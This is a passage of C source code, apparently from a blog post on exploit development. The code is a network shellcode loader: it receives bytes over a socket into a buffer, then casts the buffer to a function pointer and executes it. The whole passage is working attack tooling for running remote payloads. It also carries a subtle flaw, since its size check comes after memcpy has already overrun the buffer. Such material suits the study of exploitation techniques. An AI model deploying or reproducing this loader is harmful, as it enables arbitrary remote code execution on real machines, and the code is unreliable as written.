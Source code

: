 		perror("accept");
		exit(-1);
	}


	data_len = shellcode_len = 0;

	do
	{
		data_len = recv(new, data, MAX_DATA, 0);

		if(data_len)
		{
			memcpy(&shellcode[shellcode_len], data, data_len);
			shellcode_len += data_len;
			if (shellcode_len > MAX_SHELLCODE_LEN)
			{
				printf("Received shellcode length exceeds MAX_SHELLCODE_LEN: exiting!\n");
				exit(-1);
			}

		}

	}while(data_len);


	close(new);
	close(sock);

	if(shellcode_len)
	{

		printf("Shellcode size: %d\n", (int)strlen(shellcode));
		printf("Executing ...\n");
		fptr = (int(*)())shellcode;
		(int)(*fptr)();

	}

	return 0;		
}

{% endhighlight  %}
